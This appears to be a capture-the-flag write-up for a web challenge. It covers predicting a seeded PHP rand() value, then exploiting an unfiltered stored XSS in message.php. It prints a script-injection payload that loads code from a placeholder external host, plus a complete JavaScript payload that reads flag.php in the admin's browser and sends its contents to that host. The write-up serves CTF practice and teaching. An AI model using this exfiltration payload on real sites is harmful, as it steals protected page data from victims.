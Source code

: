 First of all, find a clue in the html source code: 
* the body1 is the seed
* the body1 is the rand1 (random number 1)

so, we try to generate a random code with the following code( the php version should be consistent with that in the server):

srand($seed);
echo rand();
$res = rand();
echo $res;

Here, the $res is what the challenge wants. Then we are guided to message.php, This is obviously an arbitrary XSS vulnerability without any filter,the payload we try to send like this:

<script src='http://xx.xx.xx.xx/xx.js'></script>

When the victim admin view this msg, he/she will send the page content of flag.php to you. ( you need to modify the code below, and deploy with your own server )

javascript payload:
```js
var pkav = { ajax: function () { var xmlHttp; try { xmlHttp = new XMLHttpRequest(); } catch (e) { try { xmlHttp = new ActiveXObject('Msxml2.XMLHTTP'); } catch (e) { try { xmlHttp = new ActiveXObject('Microsoft.XMLHTTP'); } catch (e) { return false; } } } return xmlHttp; }, req: function (url, data, method, callback) { method = (method || '').toUpperCase(); method = method || 'GET'; data = data || ''; if (url) { var a = this.ajax(); a.open(method, url, true); if (method == 'POST') { a.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); } a.onreadystatechange = function () { if (a.readyState == 4 && a.status == 200) { if (callback) { callback(a.responseText); } } }; if ((typeof data) == 'object') { var arr = [ ]; for (var i in data) { arr.push(i + '=' + encodeURIComponent(data[i])); } a.send(arr.join('&')); } else { a.send(data || null); } } }, get: function (url, callback) { this.req(url, '', 'GET', callback); }, post: function (url, data, callback) { this.req(url, data, 'POST', callback); } }; pkav.get('flag.php',function(data){ window.location.href="http://xx.xx.xx.xx/?a=1&"+'code='+encodeURIComponent(data)});
```

